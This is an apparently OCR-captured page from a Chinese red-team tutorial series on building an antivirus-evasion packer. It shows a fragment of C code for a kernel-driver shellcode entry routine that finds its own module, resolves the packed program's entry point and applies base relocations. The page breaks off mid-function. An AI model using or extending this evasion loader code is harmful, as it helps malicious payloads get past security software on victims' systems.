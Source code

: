 ```
			}
		}
		break;
	}while(0);
	return 1;
}



```

#### 红队免杀壳开发框架之shellcode入口（四）

```
/壳程序的SYS入口函数
long __stdcall ShellCodeSysMain(PVOID pDriverObject,PVOID pRegistryPath)
{
	if((NULL == pDriverObject) && (NULL == pRegistryPath))
	{
		return -1;
	}

	ULONG  Rva;
	SYSMAIN                MainDriver = NULL;
	PIMAGE_DOS_HEADER      Module     = NULL;
	PIMAGE_BASE_RELOCATION BaseInfo   = NULL;
	PSHELLCODEINFO_BASE    pShellInfo = NULL;

	do
	{
		pShellInfo = (PSHELLCODEINFO_BASE)GetRunAddress(&BaseShellInfo);
		if(0 == pShellInfo->ShellInfoRva)
		{
			return -1;
		}

		Module     = (PIMAGE_DOS_HEADER)((ULONG)pShellInfo - pShellInfo->ShellInfoRva);
		MainDriver = (SYSMAIN)((ULONG)Module + pShellInfo->AddressOfEntryPoint);

		if(0 == pShellInfo->AddressOfEntryPoint)
		{
			MainDriver = NULL;
		}

		if((0 == pShellInfo->DataDirectory[5].VirtualAddress) 
			|| (0 == pShellInfo->DataDirectory[5].Size))
		{
			break;
		}

		Rva      = pShellInfo->DataDirectory[5].VirtualAddress;
		Rva      = GetRVARunAddr(Module,Rva,IMAGE_DATA_PE);
		BaseInfo = (PIMAGE_BASE_RELOCATION)Rva;

		if((0 == Rva) || (-1 == Rva))
		{
			return -1;
		}

		OnModuleBase(Module,BaseInfo,IMAGE_DATA_PE);
		break;
	}while(0);

	if(MainDriver)
```